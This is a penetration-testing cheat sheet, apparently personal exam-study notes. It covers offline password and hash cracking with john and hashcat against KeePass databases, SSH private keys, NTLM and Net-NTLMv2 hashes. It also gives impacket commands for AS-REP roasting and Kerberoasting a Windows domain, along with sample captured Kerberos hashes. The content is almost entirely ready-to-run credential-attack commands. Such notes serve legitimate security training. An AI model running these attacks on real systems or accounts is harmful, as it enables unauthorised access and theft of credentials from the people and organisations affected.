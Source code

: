 # KEEPASS

First it we extract the password hash 
```bash
keepass2john Database.kdbx > keepass.hash
```
| Sometimes we might need to remove the user `Database:`

Then we crack it. We can either use *john*  
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
```

or *hashcat*. If we hashcat we must remember to strip off the initial "Database:" from the hash.
```bash
hashcat -m 13400 keepass.hash rockyou.txt -r rockyou-30000.rule --force
```

Then connect
```bash
keepasssxc Database.kdbx
```

-----------------------

# SSH KEY

First we extract the hash
```bash
ssh2john id_rsa > ssh.hash
```

Then we crack it. We can either use *john*  | Somtimes we might need to remove the username `id_rsa:`
```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt ssh.hash
```

or with *hashcat*
```bash
hashcat -m 22921 ssh.hash rockyou.txt --force
```

-----------------------

# NTLM

We can use *hashcat* with code 1000
```bash
hashcat -m 1000 nelly.hash rockyou.txt -r best64.rule --force
```

-----------------------

# Net-NTLMv2

We can use *hashcat* with code 5600
```bash
hashcat -m 5600 paul.hash rockyou.txt --force
```

-----------------------

# AS-REP roasting

Suppose we perform a AS-REP attack over a windows AD
```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Then we get the following hash
#$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b01ec750cf35a2c37abde02f28b7aa363ffa1d18c9dd0262e43ab6a5447db24f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b147186042faaa686931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22*

to crack it we can use hashcat with code 18200
```bash
sudo hashcat -m 18200 hashes.asreproast rockyou.txt -r best64.rule --force
```

-----------------------

# KERBEROASTING

Suppose we perform a kerberoasting attack over a windows AD
```bash
proxychains impacket-GetUserSPNs -request -dc-ip 10.10.132.146 oscp.exam/web_svc
```

Then we get the following hash
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...

to crack it we can use hashcat with code 13100
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r best64.rule --force
```

